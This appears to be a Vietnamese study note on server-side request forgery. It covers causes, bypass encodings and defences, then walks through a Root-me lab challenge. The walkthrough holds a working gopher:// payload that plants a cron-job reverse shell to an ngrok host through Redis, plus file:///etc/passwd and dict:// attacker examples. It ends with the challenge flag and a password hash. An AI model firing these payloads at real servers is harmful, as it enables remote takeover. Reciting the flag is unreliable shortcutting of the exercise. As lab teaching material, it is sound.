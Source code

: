 ```
+ Tìm hiểu về SSRF(Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng chống).
+ Giải các bài ssrf trên rootme.
```
# SSRF (Server Side Request Forgery)
## Khái niệm
SSRF là cuộc tấn công yêu cầu giả từ máy chủ cho phép kẻ tấn công thay đổi tham số yêu cầu từ đó có thể kiểm soát được yêu cầu của máy chủ, khi đó kẻ tấn công sẽ khiến máy chủ gửi yêu cầu đến 1 máy chủ khác hoặc chính nó nhằm mục đích xấu.
## Nguyên nhân
- Thiếu kiểm soát đầu vào: Khi máy chủ lấy tài nguyên từ tham số được kiểm soát người dùng mà không có kiểm tra hay xác thực thì kẻ tấn công có thể sử dụng nó để thực hiện yêu cầu.
- Sử dụng máy chủ sử dụng được các protocol không cần thiết (gopher://, dict://,...) và mở 1 số port có thể khai thác(redis, SMB,..)
- Sử dụng IP nội bộ: Khi ứng dụng web cho phép sử dụng IP nội bộ, kẻ tấn công từ đó có thể yêu cầu truy cập mà không cần xác thực
## Tác hại + 1 số cách bypass
### Tác hại
- Kẻ tấn công có thể truy cập vào các dữ liệu nhạy cảm trên máy chủ cũng như trên cục bộ, từ đó ăn cắp thông tin quan trọng của người dùng,...
- Vượt qua các lớp bảo mật, truy cập vào mạng cục bộ từ đó dẫn đến các cuộc tấn công khác nghiêm trọng hơn như RCE,...

### 1 số cách bypass
- Trong cuộc tấn công vào chính máy chủ:
  - Sử dụng IP thay thế `127.0.0.1`, `localhost` như: `2130706433` (dạng số nguyên), `127.0.1`, `127.1`, `017700000001`(dạng octal),...
  - Obfuscating các chuỗi bị filter như URL enconde,...
- Open redirection: Khi ứng dụng web redirect, quan soát các tham số trên URL từ đó có thể kiểm soát được.
- URL parsing: 
  - Sử dụng `@` để đưa phần phía trước thành credential 
  - Sử dụng `#` (fragment) để tạo ra tham số mới mà từ đó máy chủ đọc được và truy cập được nó.

- Encode, double encode,...
- Sử dụng các protocols:
  - `file://`: `file:///etc/passwd`
  - `dict://`:`dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>` => `ssrf.php?url=dict://attacker:11111/`
  - `gopher://`: `gopher://<server>:8080/_GET / HTTP/1.0%0A%0A`
  - ...
- Sử dụng tools:
  - <a href="https://github.com/swisskyrepo/SSRFmap" >SSRFMap</a> (phát hiện và khai thác SSRF)
  - <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a> (tạo payload khai thác MySQL, Redis,...)
 
Tham khảo: <a href="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery" >Hacktricks</a>
## Phòng chống
- Kiểm tra xác thực đầu vào: kiểm tra giới hạn phạm vi tham số được đưa vào URL ví dụ như giới hạn các địa chỉ IP có thể yêu cầu đến máy chủ...
- Sử dụng whitelist: chỉ định các URL hay các protocols, wrapper hợp lệ mà ứng dụng có thể kiểm soát được.
- Giới hạn truy cập máy chủ cục bộ, sử dụng cấu hình máy chủ hợp lý.
- Sử dụng tường lửa, thư viện bảo mật và thường xuyên cập nhật chúng.

# Root-me
## Server Side Request Forgery
Link: https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery

![image](https://user-images.githubusercontent.com/92881216/229118568-98447fe1-187c-47b2-8e71-deb5e1044c88.png)

Nhìn sơ qua thì web có 1 input url:

![image](https://user-images.githubusercontent.com/92881216/229118790-585c2ee8-144d-4c5f-b177-42feabf035b8.png)

Nhập thử với `https://www.google.com/` thì :

![image](https://user-images.githubusercontent.com/92881216/229119047-c4c6829d-33c3-4638-98b9-3e7b38490972.png)

Như vậy có thể web dùng curl để crawl lại web được nhập từ url. Tiếp tục thử với `file:///etc/passwd`:

![image](https://user-images.githubusercontent.com/92881216/229119398-f4062355-78d3-415b-b356-d9c87e3693ea.png)

Như vậy web có vẻ không filter gì, nhưng trong `/etc/passwd` cũng không có gì, tiếp tục thử với `http://localhost`

![image](https://user-images.githubusercontent.com/92881216/229119635-33516819-24a3-4445-9434-936e3f199173.png)

Như vậy nó có thể yêu cầu đến chính server nó. Mặt khác, SSRF có thể khai thác qua các cổng mở khác có thể dấn đến RCE, vì vậy dùng burp suite để test toàn bộ cổng với payload: `http://localhost:x` với x từ 1 -> 65535 và nhận thấy cổng `6379` bị Timeout.

Như vậy cổng 6379 được mở, đây là cổng mặc định của `redis`.<br>
> Redis 6379 là cổng mặc định mà Redis nghe các kết nối. Nó là một kho lưu trữ cấu trúc dữ liệu trong bộ nhớ phổ biến được sử dụng làm cơ sở dữ liệu, bộ đệm và trình môi giới tin nhắn. Đây là một cơ sở dữ liệu nhanh, có thể mở rộng và đáng tin cậy được sử dụng bởi nhiều trang web và ứng dụng phổ biến.

Lanh quanh 1 lúc trên mạng tìm được tool <a href="https://github.com/tarunkant/Gopherus" >Gopherus</a>. Đây là tool tạo payload thông qua protocol `gopher` dùng để khai thác các dịch vụ như: mysql, redis, smtp,...

Sau 1 hồi tìm hiểu thì đây là cách khai thác:
- Đầu tiên dùng `ngrok` với command `ngrok tcp 1235` để tạo ra 1 tunel từ máy đến internet qua cổng 1235 (Đây là cổng để netcat nghe reverse shell) : 

![image](https://user-images.githubusercontent.com/92881216/229121608-cecd01ed-8214-4641-be29-06aa60d12811.png)

- Tiếp theo, dùng `Gopherus` tạo payload reverse shell với ip vừa tạo từ `ngrok`:

![image](https://user-images.githubusercontent.com/92881216/229122051-08bdffd2-3422-4427-9d5e-b52b474ca55c.png)

Tuy nhiên mặc định tool tạo ra có cổng 1234 nên cần đổi nó sang cổng đã tạo ở `ngrok` (ở đây là: 16632)

Payload khi đó là:
```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2472%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/16632%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```
- Bây giờ chỉ việc dùng `nc -lvp 1235` rồi gửi payload thôi...

Kết quả:

![image](https://user-images.githubusercontent.com/92881216/229142708-d48fb2ea-4a9e-4e82-bd26-41d2635823bf.png)

> `SSRF_PwNiNg_v1@_GoPh3r_1s_$o_c00l!`

> passwd: `2f798cab4f3c10fd05e7101d365ad60f`


